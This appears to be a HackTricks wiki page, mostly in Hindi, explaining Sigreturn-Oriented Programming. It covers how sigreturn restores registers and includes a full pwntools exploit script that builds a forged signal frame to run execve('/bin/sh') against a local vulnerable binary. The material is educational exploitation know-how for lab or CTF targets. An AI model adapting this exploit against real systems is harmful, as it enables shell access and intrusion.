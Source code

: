 # SROP - Sigreturn-Oriented Programming

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

**`Sigreturn`** एक विशेष **syscall** है जिसका मुख्य उपयोग एक सिग्नल हैंडलर के निष्पादन के बाद सफाई करने के लिए किया जाता है। सिग्नल वे व्यवधान हैं जो ऑपरेटिंग सिस्टम द्वारा एक प्रोग्राम को भेजे जाते हैं, अक्सर यह संकेत देने के लिए कि कोई असाधारण स्थिति उत्पन्न हुई है। जब एक प्रोग्राम एक सिग्नल प्राप्त करता है, तो यह सिग्नल को संभालने के लिए अस्थायी रूप से अपने वर्तमान कार्य को रोक देता है, एक **सिग्नल हैंडलर** के साथ, जो सिग्नल को संभालने के लिए डिज़ाइन किया गया एक विशेष फ़ंक्शन है।

सिग्नल हैंडलर के समाप्त होने के बाद, प्रोग्राम को **अपनी पिछली स्थिति पर लौटने** की आवश्यकता होती है जैसे कि कुछ भी नहीं हुआ। यहीं पर **`sigreturn`** काम आता है। यह प्रोग्राम को **सिग्नल हैंडलर से लौटने** में मदद करता है और प्रोग्राम की स्थिति को बहाल करता है, सिग्नल हैंडलर द्वारा उपयोग किए गए स्टैक फ्रेम (मेमोरी का वह भाग जो फ़ंक्शन कॉल और स्थानीय चर को संग्रहीत करता है) को साफ करके।

दिलचस्प बात यह है कि **`sigreturn`** प्रोग्राम की स्थिति को कैसे बहाल करता है: यह **CPU के सभी रजिस्टर मानों को स्टैक पर संग्रहीत करके** ऐसा करता है। जब सिग्नल अब अवरुद्ध नहीं होता है, तो **`sigreturn` इन मानों को स्टैक से पॉप करता है**, प्रभावी रूप से CPU के रजिस्टर को उनके उस स्थिति में रीसेट करता है जब सिग्नल को संभाला गया था। इसमें स्टैक पॉइंटर रजिस्टर (RSP) शामिल है, जो स्टैक के वर्तमान शीर्ष की ओर इशारा करता है।

{% hint style="danger" %}
ROP श्रृंखला से **`sigreturn`** syscall को कॉल करना और **रजिस्ट्रियों के मानों को जोड़ना** जो हम इसे **स्टैक** में लोड करना चाहते हैं, यह संभव बनाता है कि हम सभी रजिस्टर मानों को **नियंत्रित** कर सकें और इसलिए **कॉल** कर सकें, उदाहरण के लिए, syscall `execve` के साथ `/bin/sh`।
{% endhint %}

ध्यान दें कि यह एक **प्रकार का Ret2syscall** होगा जो अन्य Ret2syscalls को कॉल करने के लिए पैरामीटर को नियंत्रित करना बहुत आसान बनाता है:

{% content-ref url="rop-syscall-execv.md" %}
[rop-syscall-execv.md](rop-syscall-execv.md)
{% endcontent-ref %}

बेहतर व्याख्या के लिए चेक करें:

{% embed url="https://youtu.be/ADULSwnQs-s?feature=shared" %}

## Example

आप [**यहां एक उदाहरण पा सकते हैं**](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop/using-srop), हालांकि यह वहां से अंतिम एक्सप्लॉइट है:
```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = process()

BINSH = elf.address + 0x1250
POP_RAX = 0x41018
SYSCALL_RET = 0x41015

frame = SigreturnFrame()
frame.rax = 0x3b            # syscall number for execve
frame.rdi = BINSH           # pointer to /bin/sh
frame.rsi = 0x0             # NULL
frame.rdx = 0x0             # NULL
frame.rip = SYSCALL_RET

payload = b'A' * 8
payload += p64(POP_RAX)
payload += p64(0xf)
payload += p64(SYSCALL_RET)
payload += bytes(frame)

p.sendline(payload)
p.interactive()
```
## संदर्भ

* [https://youtu.be/ADULSwnQs-s?feature=shared](https://youtu.be/ADULSwnQs-s?feature=shared)
* [https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop](https://ir0nstone.gitbook.io/notes/types/stack/syscalls/sigreturn-oriented-programming-srop)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
